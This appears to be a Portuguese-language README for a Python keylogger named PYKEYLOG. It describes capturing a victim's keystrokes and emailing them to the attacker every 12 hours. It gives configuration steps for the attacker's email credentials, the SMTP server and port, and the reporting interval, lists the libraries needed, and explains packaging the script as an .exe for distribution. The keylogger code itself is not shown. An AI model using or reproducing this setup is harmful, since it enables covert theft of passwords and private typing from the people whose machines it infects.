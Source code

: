 <h1 align="center"> PYKEYLOG </h1>
Keylogger em Python, feito da forma mais simples possível para copiar as teclas pressionadas e enviar a cada 12 horas para o e-mail do atacante.
# Como usar:
Altere: 'EMAIL_ADDRESS = "youremail@example.com"' e 'EMAIL_PASSWORD = "yourpassword"'
Altere também na linha 34: server = smtplib.SMTP(host="smtp-mail.outlook.com", port=587) - para o smtp e porta do email que você for usar
Você também pode alterar o intervado de tempo que o e-mail será enviado com as teclas pressionadas em: SEND_REPORT_EVERY = 43200  # (seconds)
No meu caso, para não ficar chegando muitos emails, coloquei para receber a cada 12 horas. Use sempre em segundos.
# Lembre-se:
Importar as bibliotecas:
smtplib
pynput
threading
email.mime.text
# USE COM RESPONSABILIDADE!

# Transformar em .exe
Após a finalização do script, utilizei auto_py_to_exe para transformar o arquivo py em exe.
Enjoy
